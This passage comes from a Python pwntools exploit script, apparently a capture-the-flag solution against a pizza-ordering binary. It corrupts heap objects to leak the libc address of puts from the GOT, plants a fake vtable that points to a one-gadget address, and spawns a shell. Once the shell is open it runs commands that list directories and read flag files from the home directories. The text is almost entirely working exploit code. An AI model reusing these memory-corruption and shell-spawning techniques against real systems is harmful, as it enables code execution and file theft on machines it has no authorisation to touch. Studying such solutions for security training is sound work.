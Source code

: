 ```python
    else:
        g.close()
        warning("Exploit failed, trying again")
        return

    # ----- leak libc -----

    logout()
    create_user('bad2')
    order(illegal)
    logout()

    create_user('good2')
    order([tomato])
    cook('A' * 0x32)
    order(['A' * 0x12, 'A' * 0x12])
    logout()

    login('bad2')
    cook('B' * 0x12)
    explain(flat('B' * 0x18, 0x21, 0, 'B' * 0x10, 0x51, binary.got.puts, 0x12, 0x12))

    login('good2')
    cook('A')

    g.recvuntil('PIZZA #2')
    g.recvuntil('Adding ingredient: ')
    leak = u64(g.recvuntil('\nAdding ingredient', drop=True).ljust(8, '\0'))
    info("leak: 0x%x", leak)
    libc.address = leak - libc.symbols.puts

    # ----- fake vtable -----

    payload = p64(libc.address + magic)

    logout()
    create_user('user2')
    order(illegal)
    logout()

    create_user(payload)
    order([tomato, 'A' * 0x12, 'A' * 0x12])
    cook('A' * 0x37)
    cook('A')
    logout()

    login('user2')
    cook('B' * 0x67)
    explain('C' * 0x70 + p64(binary.address + name_buf))

    login(payload)
    admire()

    sleep(1)
    g.sendline('id;pwd;ls -al;cat fl* /home/*/fl*')
    g.interactive()
    exit()


def explain(msg):
    g.sendlineafter('Choice: ', 'P')
    g.sendlineafter('yourself: ', msg)

```